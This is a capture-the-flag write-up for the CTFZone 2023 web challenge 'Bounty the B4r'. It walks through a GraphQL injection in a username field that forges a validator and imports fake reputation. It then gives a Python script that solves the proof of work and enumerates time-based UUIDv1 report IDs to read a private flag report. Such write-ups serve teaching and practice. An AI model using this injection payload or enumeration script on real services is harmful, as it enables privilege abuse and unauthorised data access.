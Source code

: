 ```yaml
---
title: "ctfzone23 web/Bounty the B4r"
publishDate: "13 Aug 2023"
description: "Author: cpp.dog"
tags: ["web", "ctfzone23"]
---
```


#### Description
BB stands for Bounty the B4r. Our highly skilled specialists developed the best BB platform ever with a magnificent UI design. We’re waiting for you to report cool findings and let us pay you some $$ or chocolate

#### Code inspection
Here's the most important code of our challenge.

`golang/db/database.go`
```golang
func (db Database) InitFlagReport(flag string) error {
  ...
	program := BBProgram{
		ID:   prUUID.String(),
		Name: "CTFZone Private Program",
		Type: ProgramTypePrivate,
	}

	res = db.Impl.Create(&program)
	if res.Error != nil || res.RowsAffected != 1 {
		return fmt.Errorf("error inserting program to the db: %v", res.Error)
	}

	_, err = db.CreateReport(
		"Very Secret Report~",
		"Flag: "+flag,
		program.ID,
		"Critical",
		"CWE-1",
		7446744073709551610,
	)
  ...
}
```

`golang/controller/program.go`
```golang
func (s *server) PostProgramPUuidJoin(w http.ResponseWriter, r *http.Request, pUuid uuid.UUID) {
	...
	if bbProgram.Type == ProgramTypePrivate && user.Reputation < 100000 {
		api.HandleError(fmt.Errorf("low reputation, try harder"), w)
		return
	}
  ...
}
```

`golang/controller/report.go`
```golang
func (s *server) GetReportRUuid(w http.ResponseWriter, r *http.Request, rUuid uuid.UUID, params api.GetReportRUuidParams) {
  ...
	if bbProgram.Type == ProgramTypePrivate {
		var progMembers db.ProgramMembers
		result = s.db.Impl.First(&progMembers, "user_id = ? AND program_id = ?", userID, bbProgram.ID)
		if result.Error != nil || result.RowsAffected != 1 {
			api.HandleError(fmt.Errorf("you're not a member of this program"), w)
			return
		}
	}
  ...
}
```
`golang/controller/user.go`
```golang
const userDataQery = `query {
	user(username: "%s") {
	  id
	  username
	  name
	  intro
	  reputation
	  rank
	}
}`
...
func verifyValidator(v string) bool {
	m, err := regexp.MatchString("^[a-zA-Z0-9=]{30,40}$", v)
	if err != nil {
		return false
	}
	if m {
		return true
	} else {
		return false
	}
}

func (s *server) PostUserImportReputation(w http.ResponseWriter, r *http.Request) {
  ...
  postBody, _ := json.Marshal(map[string]string{
      "query": fmt.Sprintf(userDataQery, *req.Username),
  })
  resp, err := http.Post("https://hackerone.com/graphql", "application/json", bytes.NewBuffer(postBody))
  ...
  if rd.Data.User.Intro != *req.Validator {
      api.HandleError(fmt.Errorf("incorrect validator"), w)
      return
  }
```
Looks like we need to abuse GraphQL injection for something, let's take a look at hackerone's response for a random h1 user.

```bash
curl -X POST -d `{"query": "query { user(username: \"d0xing\") { id username name intro reputation rank } }"}` -H "Content-Type: application/json" https://hackerone.com/graphql


{
    "data": {
        "user": {
            "id": "Z2lkOi8vaGFja2Vyb25lL1VzZXIvOTY1NTA=",
            "username": "d0xing",
            "name": "d0xing",
            "intro": "",
            "reputation": 103907,
            "rank": 2
        }
    }
}
```

The `id` field looks like it can be used as a `validator`, so we can abuse this to get 100k rating on the target site. 

```bash
curl -X POST -d '{
    "username":"d0xing\") { intro:id username reputation rank } u:user(username: \"d0xing", 
    "validator": "Z2lkOi8vaGFja2Vyb25lL1VzZXIvOTY1NTA="
  }' \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer [REDACTED]" \
  https://bounty-the-b4r.ctfz.one/api/user/import_reputation
```

Now we can join `CTFZone Private Program` program without problems. Our new task is to find the report id. The only thing we know is the uuid of programs, and the time report was generated.

```json
[
    {
        "id": "ad1cec14-3830-11ee-b365-0255ac100030",
        "name": "CTFZone Private Program",
        "programType": 1
    },
    {
        "id": "ad1d822a-3830-11ee-b365-0255ac100030",
        "name": "Hooli Public BB Program",
        "programType": 0
    }
]

{
    "published": 1691749220902427748,
    "severity": "Critical",
    "title": "Very Secret Report~"
}
```
So, we need to iterate over the v1 uuid between `ad1cec14-3830-11ee-b365-0255ac100030` and `ad1d822a-3830-11ee-b365-0255ac100030`, but checking each id is not possible due to proof of work. Let's check how uuids are created. 

```golang
// A Time represents a time as the number of 100's of nanoseconds since 15 Oct 1582.
timeLow := uint32(now & 0xffffffff)
```

Since we know the report creation time in nanoseconds, we can easily reduce the search range. 

Corresponding uuid v1: `ad1cec14-3830-11ee-b365-0255ac100030`. Now we are ready to get the flag.

#### Solver code
```python
import hashlib
import requests
import json

ALPHABET = "".join([chr(i) for i in range(32, 128)])

FROM_UUID = int("ad1cec14", base=16)
TO_UUID = int("ad1d822a", base=16)
SUFFIX = "-3830-11ee-b365-0255ac100030"

def get_pow(pref, hash): 
  for c in ALPHABET:
    for c1 in ALPHABET:
        for c2 in ALPHABET:
            for c3 in ALPHABET:
                if hashlib.md5((pref + c + c1 + c2 + c3).encode()).hexdigest() == hash:
                    return (pref + c + c1 + c2 + c3)
  return None
for N in range(FROM_UUID, TO_UUID):
  s = requests.get("https://bounty-the-b4r.ctfz.one/api/user/info", headers={
    "Authorization": "Bearer [REDACTED]"
  })
  data = s.json()

  pow = get_pow(data["pow"], data["md5"])

  url = f"https://bounty-the-b4r.ctfz.one/api/report/{hex(N)[2:]}{SUFFIX}?pow={pow}"
  print(f"Trying {url}...")

  r = requests.get(url, headers={
    "Authorization": "Bearer [REDACTED]"
  })

  if r.status_code == 400:
    continue

  print(json.dumps(r.json(), indent=4, sort_keys=True))
```

#### Flag
`CTFZone{b0un7y_th3_b4r_th3_t4st3_0f_bug5}`